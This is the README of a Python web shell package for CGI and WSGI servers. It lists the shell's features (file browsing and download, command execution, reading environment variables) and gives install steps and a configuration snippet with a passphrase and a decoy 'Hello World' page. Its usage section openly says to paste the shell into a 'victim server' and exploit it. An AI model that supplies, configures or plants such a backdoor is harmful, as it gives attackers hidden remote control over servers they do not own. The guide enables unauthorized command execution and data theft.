 # PyWCGIshell

## Description
This package implement a WebShell for CGI and WSGI server.

With this WebShell you can:
 - explore directories and download files
 - send a command line (with a history command)
 - get basic informations about environment server
 - get the environments variables

## Requirements
This package require :
 - python3
 - python3 Standard Library

## Installation
```bash
pip install PyWCGIshell
```

## Usages

### Command line:
(Command line is useful to try the webshell only)
```bash
python3 -m PyWCGIshell wsgi # Try it in wsgi mode
```

### Python script
```python
from PyWCGIshell import WebShell

def my_default_cgi_page():
	print("Content-type:text/plain")
	print("")
	print("Hello World !")

webshell = WebShell()

webshell.type = "cgi" or "wsgi"
webshell.passphrase = "$HELL"
webshell.pass_type = "url" or "body" or "arguments" or "header_value" or "method"
webshell.standard_page = my_default_cgi_page

webshell.run()
```

To use this WebShell:
 - Configure and copy the WebShell code (server type, passphrase and passphrase location)
 - Paste it in the default page of the victim server
 - Send a request with the passphrase and exploit the weak server

## Links
 - [Github Page](https://github.com/mauricelambert/PyWCGIshell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyWCGIshell.html)
 - [Pypi package](https://pypi.org/project/PyWCGIshell/)

## Licence
Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
